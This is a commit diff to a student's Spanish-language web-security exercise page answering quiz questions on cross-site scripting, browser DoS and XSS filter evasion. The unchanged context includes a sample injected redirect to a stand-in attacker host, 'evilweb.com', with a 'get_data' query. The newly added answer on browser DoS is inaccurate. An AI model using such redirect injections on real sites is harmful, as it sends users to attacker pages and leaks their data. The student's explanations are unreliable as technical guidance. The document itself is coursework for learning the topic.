

Before and after one commit to nil11503/RetosSeguridad, a plain HTML site: page Reto 4/4.html in a window 1280 px wide. Before the commit the page ends 869 px from the top, so only its background shows below. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Finalizar reto 4

```diff
--- a/Reto 4/4.html
+++ b/Reto 4/4.html
@@ -13,7 +13,7 @@
 
     <body>
         <h4>¿Cómo funciona la técnica de Cross-Site Scripting?</h4>
-        <p>El XSS para cuando el desarollador no ha desinfectado las entradas de texto (campos de busqueda por ejemplo) y el cliente tiene la posibilidad de injectar codigo JS con estes campos</p>
+        <p>El XSS sucede cuando el desarollador no ha desinfectado las entradas de texto (campos de busqueda por ejemplo) y el cliente tiene la posibilidad de injectar codigo JS con estes campos</p>
         <!-- Fin pregunta 1 -->
 
         <h4>¿Por qué decimos que JavaScript está de nuestro lado?</h4>
@@ -45,9 +45,8 @@
         <!-- Fin pregunta 6 -->
 
         <h4>¿Qué significa realizar un ataque DoS al navegador?</h4>
-        <pre>
-
-        </pre><!-- Fin pregunta 7 -->
+        <p>Enviar una multitud de paquetes al navegador para hacer que sube su latencia</p>
+        <!-- Fin pregunta 7 -->
 
         <h4>¿Cómo puede un atacante redireccionar a los usuarios hacia otro sitio con una inyección en JavaScript?</h4>
         <p>Con un ataque persistente <span style="background-color: #282a36; color: #f8f8f2; border-radius: 5px; padding: 0px 5px 0px 5px; font-weight: 500;">windows.location.href = "http://evilweb.com/?get_data";</span></p>
@@ -56,6 +55,7 @@
         <a href="https://owasp.org/www-community/xss-filter-evasion-cheatsheet">
             <h4>¿Cómo podemos saltar los filtros que encontramos en la web?</h4>
         </a>
+        <p>Cambiando los caracteres que pueden ser detectadas por el filtro pero el navegador sigue interpretándolos</p>
         <!-- Fin pregunta 9 -->
     </body>
 </html>
```
